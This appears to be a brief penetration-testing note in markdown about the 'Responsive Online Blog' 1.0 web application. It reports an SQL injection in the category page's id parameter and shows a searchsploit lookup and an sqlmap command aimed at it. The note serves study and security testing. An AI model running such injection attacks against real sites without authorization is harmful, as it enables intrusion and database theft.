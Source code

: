 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Responsive Online Blog

## 101

Responsive Online Blog is a basic **content management system (CMS)-style web application** that allows users to read and interact with blog posts. It's typically used for learning or small-scale blogging purposes and includes common CMS features like post management, user interaction, and dynamic content loading.

## Attacks

Version `1.0` is vulnerable to a SQLi in `/category.php?id=1`:

```bash
$ searchsploit Responsive Blog
Responsive Online Blog 1.0 - 'id' SQL Injection | php/webapps/48615.txt

$ sqlmap -r blog_category.req --batch
```
